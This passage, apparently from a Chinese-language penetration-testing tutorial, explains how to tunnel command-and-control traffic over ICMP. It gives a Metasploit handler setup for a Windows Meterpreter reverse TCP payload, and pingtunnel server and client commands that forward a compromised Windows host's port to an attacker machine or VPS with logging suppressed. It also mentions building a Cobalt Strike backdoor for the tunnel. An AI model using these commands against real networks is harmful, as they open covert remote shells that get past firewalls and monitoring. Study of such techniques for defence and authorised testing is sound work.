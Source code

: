 ```plain
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

kali 使用 pingtunnel 工具开启隧道服务：./pingtunnel -type server

windows 开启隧道将本地 444 端口 icmp 协议数据转发到攻击机 IP 的 333 端口上

```plain
pingtunnel.exe -type client -l 127.0.0.1:444 -s 192.168.4.1(kali) -t 192.168.4.1:333 -tcp 1 -noprint 1 -nolog 1
```

#### CS 绕过

[![](assets/1710899131-b6ef3a0527eccb8396f0bcf833a6e1d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228122322-1bf786a4-d5f1-1.png)

然后使用 icmp1 生成后门程序

kali 使用 pingtunnel 工具开启隧道服务：./pingtunnel -type server

windows 开启隧道将本地 5555 端口 icmp 协议数据转发到攻击机 IP 的 6666 端口上

```plain
pingtunnel.exe -type client -l 127.0.0.1:5555 -s 192.168.4.1(kali) -t vps 地址:6666 -tcp 1 -noprint 1 -nolog 1
```

## 2\. 完全没有网络

内网环境

[![](assets/1710899131-eea6d47be2a7e833ebf75c7c0a081144.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228122340-267a6c4a-d5f1-1.png)
